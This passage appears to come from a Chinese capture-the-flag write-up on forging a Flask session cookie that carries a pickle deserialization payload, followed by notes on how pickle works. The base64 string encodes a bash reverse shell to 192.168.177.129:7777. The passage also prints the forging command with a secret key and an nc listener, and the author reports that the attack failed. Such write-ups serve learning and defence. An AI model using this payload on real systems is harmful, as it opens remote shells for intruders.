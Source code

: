 得到base64编码，我们把它植入session中：Y3Bvc2l4CnN5c3RlbQpwMAooUyJiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTc3LjEyOS83Nzc3IDA+JjEiCnAxCnRwMgpScDMKLg==

Linux git clone一个项目flask-session-cookie-manager.

输入：

cd flask-session-cookie-manager

python3 flask_session_cookie_manager3.py encode -s 'glzjin22948575858jfjfjufirijidjitg3uiiuuh' -t "{'u':{'b':'Y3Bvc2l4CnN5c3RlbQpwMAooUyJiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTc3LjEyOS83Nzc3IDA+JjEiCnAxCnRwMgpScDMKLg=='}}"

即可得到session：

eyJ1Ijp7ImIiOiJZNWMzUmxicHdvb3lpbzFqZGlYbzFwNG1JOWt2ZHd6NWk0eGpndWMzakV5UzgzemMzamlueG53Z3BjZz09In19.Z8mU2A.77KywOQyvW8nzcoTy8Nlxavcpkc

进入/admin，bp抓包修改session。

kali终端nc -lvp 7777，但这里不知道为什么反弹shell一直不成功。回去看了一眼bp，发现回显是uhh？伪造的session好像没有成功上传，于是是又尝试了用python2跑脚本，结果仍然是uhh。也不知道为什么一直有问题，捣鼓了两个晚上也没什么结果，还是决定下周再尝试一下。



------

### 一些笔记

#### 1.什么是pickle

在Python中，pickle是一个用于序列化和反序列化的标准模块。其将Python对象转化为字节流，或尝试重建原始对象，将字节流转化回Python对象。在序列化和反序列化的过程中，pickle提供了简单的持久化功能，可以将对象以文件形式永久存放在磁盘上（即后缀为.pickle的文件）

不同于php序列化，pickle适用于列表，字典，集合，类等几乎所有数据类型。其序列化后的数据是二进制格式，和php序列化后的字符串有所差别。

 

#### 2.pickle的使用

和php序列化相同，pickle序列化主要在网络场景中使用，将数据序列化后通过网络传输到远程服务器，服务器接收后反序列化即可使用原始数据。但这里就存在一个pickle序列化的缺点，其只能在pickle模块中使用，即传输的两端都为python，且版本尽可能相同。如果需要跨平台跨语言，就不能使用pickle，而应使用XML,JSON等。

类似于php的serialized和unserialized，pickle也有两个功能，即将对象转换成字节流（串行化），将字节流转换成对象（反串行化）

下面是pickle在python中使用的简单实例：

```python
import pickle

data1 = 'hello world' #字符串

data2 ={'admin','123456'} #字典

data3 = ['username','passwd'] #数组

class secret():

  username='admin'

  passwd='123456'

data4=secret()

 

serialized1 = pickle.dumps(data1)  # 序列化为字节流

unserialized1 = pickle.loads(serialized1)  # 反序列化

print (f'序列化结果为：{serialized1}')

```